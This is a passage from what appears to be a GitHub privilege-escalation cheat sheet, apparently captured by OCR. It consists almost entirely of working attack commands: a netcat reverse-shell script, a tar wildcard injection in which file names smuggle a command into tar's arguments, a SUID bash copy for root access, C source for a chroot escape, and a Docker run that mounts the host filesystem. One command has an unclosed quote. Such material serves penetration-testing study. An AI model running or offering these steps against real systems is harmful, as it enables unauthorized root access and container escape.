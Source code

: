 ### Reverse shell

- `printf '#!/bin/bash\nnc -e /bin/bash 127.0.0.1 1234' > shell.sh`
- Create some special files which will act as arguments to the caller process and execute shell.sh
- `touch -- '--checkpoint-action=exec=sh shell.sh'`
- `touch -- '--checkpoint=1`

### Sudo bash (tar wildcard exploit)

- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > pwn.sh`
- `touch /home/user/backupfolder/--checkpoint=1`
- `touch /home/user/backupfolder/--checkpoint-action=exec=sh\ pwn.sh`
- `/tmp/bash -p`

# Capabilities

- `getcap -r / 2>/dev/null`

# Chroot escape <a name="chroot_escape"></a>

## C

```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
int main(void) {
mkdir("chroot-dir", 0755); chroot("chroot-dir");
for(int i = 0; i < 1000; i++) { chdir("..");
}
chroot("."); system("/bin/bash");
}
```

# Docker Security <a name="docker"></a>

## Basic commands

- List images: `docker images`
- List containers: `docker ps -a`
- Run docker image with shared space: `docker run -it -v /:/host ubuntu:latest /bin/bash`
- List capabilities: `capsh --print`
- List disks: `fdisk -l`
- Scan open ports: `nc -v -n -w2 -z ip 1-65535`
- Show network info: `netstat -anlp`

## Examples
